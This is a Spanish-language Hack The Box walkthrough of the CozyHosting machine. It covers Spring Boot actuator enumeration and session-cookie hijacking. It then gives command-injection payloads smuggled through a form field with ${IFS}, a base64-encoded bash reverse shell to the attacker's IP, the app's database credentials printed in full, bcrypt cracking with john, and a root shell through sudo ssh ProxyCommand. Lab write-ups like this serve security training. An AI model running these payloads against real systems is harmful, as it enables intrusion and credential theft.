 ```yaml
---
layout: single
title: CozyHosting - Hack The Box
excerpt: CozyHosting is an easy-difficulty Linux machine that features a `Spring Boot` application. The application has the `Actuator` endpoint enabled. Enumerating the endpoint leads to the discovery of a user&amp;#039;s session cookie, leading to authenticated access to the main dashboard. The application is vulnerable to command injection, which is leveraged to gain a reverse shell on the remote machine. Enumerating the application&amp;#039;s `JAR` file, hardcoded credentials are discovered and used to log into the local database. The database contains a hashed password, which once cracked is used to log into the machine as the user `josh`. The user is allowed to run `ssh` as `root`, which is leveraged to fully escalate privileges.
date: 2024-06-28
classes: wide
header:
  teaser: /assets/images/CozyHosting.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - ctf
  - hackthebox
tags:
  - xss
  - sqli
  - hash
---
```

![|500](/assets/images/CozyHosting.png)
## Puertos
Se realiza un escaneo de puertos y servicios a la IP de la máquina usando nmap con el comando:
```sh
sudo nmap -sCV -vvv -A -T5 -p- 10.10.11.230
```
Se encuentran abiertos los puertos 22 y 80.
Se realiza un escaneo enfocado a estos puertos de nuevo con nmap:
```sh
sudo nmap -sCV -A -p22,80 10.10.11.230
```

```
**22/tcp open  ssh**     syn-ack ttl 63 **OpenSSH 8.9p1 Ubuntu 3ubuntu0.3** (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
	|   256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
	|ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
**80/tcp open  http**    syn-ack ttl 63 **nginx 1.18.0** (**Ubuntu**)
	|http-title: Cozy Hosting - Home
	|http-server-header: nginx/1.18.0 (Ubuntu)
	|http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
	|http-methods:
	|**Supported Methods: GET HEAD OPTIONS**
```

Encontramos información como la versión del ssh, el puerto 80 usa nginx

## Puerto 80
Se realiza un escaneo al puerto 80 usando "whatweb".
```sh
whatweb 10.10.11.230
```
La parte que interesa es:
RedirectLocation[**http://cozyhosting.htb**]
Por lo tanto hay que agregar la página al archivo "/etc/hosts" usando el comando:
```sh
sudo echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Al realizar fuzzing no se encontró información relevante.

Al visualizar el error 404 en una página errónea, la página muestra información útil.
![](/assets/images/Pasted_image_20240628225207.png)

*This application has no explicit mapping for /error, so you are seeing this as a fallback.*
El texto de error, sirve para buscar información acerca del mismo en la web.

Se encuentra que el error está asociado a una tecnología llamada **spring boot**.

Conociendo la tecnología, se realiza un fuzzing más específico a la página usando wfuzz.
```sh
wfuzz -c --hc=403,404 -t 4 -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt -u http://cozyhosting.htb/FUZZ
```

Se encuentran varios subdirectorios:
"actuator/env", "actuator", "actuator/env/lang", "actuator/health", "actuator/env/path", "**actuator/sessions**", "actuator/mappings", "actuator/beans"
# Ganando acceso
## Reemplazo de cookie
Se accede a "actuator/sessions", en el que se encuentra información relevante de un usuario y su cookie de sessión:
![](/assets/images/Pasted_image_20240628225239.png)

Al entrar a la página cozyhosting.htb/login
Se presenta una página de inicio de sesión, al rellenar los campos de uduario y contraseña con cualquier texto y reemplazar la cookie de la página por la encontrada anteriormente de "kanderson", se recarga la página.
![](/assets/images/Pasted_image_20240628225302.png)

Esto permite el acceso a la página de administrador: cozihosting.htb/admin
En la cual, se encuentran dos campos, "Hostname" y "Username"
![](/assets/images/Pasted_image_20240628225329.png)
## Capturando la solicitud
Al rellenar la información con cualquier texto (partyhack en este caso), se procede a capturar el la request con burpsuite y posteriormente enviarla al repeater.
Luego de enviar la solicitud analizamos la respuesta del servidor y al parecer está ejecutando algo relacionado con ssh.
![](/assets/images/Pasted_image_20240628225347.png)
Intenta ejecutar el comando "ssh" usando como los datos proporcionados: partyhack en ambos casos.
## Probando PING
Teniendo esa información podemos intentar ejecutar comandos en el sistema, usando, en este caso un "ping" a nuestra máquina con reemplazando la línea 15 de la solicitud:
```sh
host=10.10.14.13&username=;ping${IFS}-c${IFS}4${IFS}10.10.14.13;
```

No sin antes haber ejejctado "tcpdump" para poner en escucha con el protocolo ICMP:
```sh
sudo tcpdump ip proto \\icmp -i tun0
```
Ya en escucha, a ejecutar el ping se debería recibirlo como a continuación:
![](/assets/images/Pasted_image_20240628225405.png)
## Ejecutando la reverse shell
Se pone en escucha a la máquina local usando netcat en el puerrto 4747 con lo siguiente:
```sh
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:
```sh
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```
Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"
![](/assets/images/Pasted_image_20240628225430.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.
![](/assets/images/Pasted_image_20240628225442.png)
l listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.
Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:
```python
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.
```sh
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
```sh
unzip cloudhosting-0.0.1.jar
```

Acceder a la carpeta /BOOT-INF/classes y leer el archivo "application.properties"
```sh
cat application.properties
```
Encontramos las siguientes credenciales, nombre de la base de datos  y que es una base de datos "postgresql".
spring.datasource.url=jdbc:**postgresql**://localhost:5432/**cozyhosting**
spring.datasource.username=**postgres**
spring.datasource.password=**Vg&nvzAQ7XxR**

Ingresamos a la base de datos con los siguientes datos e ingresamos la contraseña cuando se requiera.
```sh
psql -h 127.0.0.1 -U postgres -d cozyhosting
```

Listamos las tablas
![](/assets/images/Pasted_image_20240628225507.png)

Mostramos el contenido de las columnas de la tabla `user`
![](/assets/images/Pasted_image_20240628225522.png)

Teniendo los hashes de las contraseñas, podemos usar fuerza bruta para descifrar el de el usuario `admin` que nos interesa más. Para esto se puede usar `johntheripper`
```sh
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
El tipo de hash es bcrypt.
![](/assets/images/Pasted_image_20240628225543.png)

ngresamos mediante `ssh` usando la contraseña y el usuario `josh`
```sh
ssh josh@10.10.11.230 -p22
```

Y obtenemos la flag de user:
![](/assets/images/Pasted_image_20240628225553.png)
# Escalada de privilegios
Probamos si ejecutar algún comando como root:
```sh
sudo -l
```

Y vemos que se podemos ejecutar ssh como root.
Por lo tanto escalamos privilegios usando ssh de la siguiente manera:
```sh
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
![](/assets/images/Pasted_image_20240628225608.png)
